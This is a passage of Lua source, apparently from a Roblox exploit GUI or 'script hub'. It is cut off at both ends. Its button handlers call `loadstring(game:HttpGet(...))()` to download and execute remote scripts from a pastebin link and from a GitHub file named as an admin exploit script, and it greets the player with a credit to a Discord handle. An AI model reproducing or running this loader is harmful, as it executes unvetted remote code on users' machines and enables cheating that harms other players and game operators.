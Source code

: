 	local btn = script.Parent
	local exec = script.Parent.Parent.exec
	
	btn.MouseEnter:Connect(function()
		btn.image.ImageColor3 = Color3.fromRGB(70, 0, 112)
	end)
	
	btn.MouseLeave:Connect(function()
		btn.image.ImageColor3 = Color3.fromRGB(85, 0, 127)
	end)
	
	btn.MouseButton1Down:Connect(function()
		exec.Visible = true
		wait(0.2)
		exec.Visible = false
		loadstring(game:HttpGet("https://pastebin.com/raw/nwGzXh1V",true))()
	end)
end
coroutine.wrap(NUCXMQ_fake_script)()
local function SFIBHRB_fake_script() -- btn7.LocalScript 
	local script = Instance.new('LocalScript', btn7)

	local btn = script.Parent
	local exec = script.Parent.Parent.exec
	
	btn.MouseEnter:Connect(function()
		btn.image.ImageColor3 = Color3.fromRGB(70, 0, 112)
	end)
	
	btn.MouseLeave:Connect(function()
		btn.image.ImageColor3 = Color3.fromRGB(85, 0, 127)
	end)
	
	btn.MouseButton1Down:Connect(function()
		exec.Visible = true
		wait(0.2)
		exec.Visible = false
		loadstring(game:HttpGet('https://raw.githubusercontent.com/BloodyBurns/Hex/main/Iv%20Admin%20v3.lua'))()
	end)
end
coroutine.wrap(SFIBHRB_fake_script)()
local function DQJWZNI_fake_script() -- Main.init 
	local script = Instance.new('LocalScript', Main)

	local name = game:GetService("Players").LocalPlayer.Name
	
	game.StarterGui:SetCore("SendNotification", {
		Title = "Welcome, " .. name .. "!";
		Text = "Made by: دسكورد >>> l55a";
		Duration = 5;
	})
end
coroutine.wrap(DQJWZNI_fake_script)()
local function LYOUG_fake_script() -- btn8.LocalScript 
	local script = Instance.new('LocalScript', btn8)
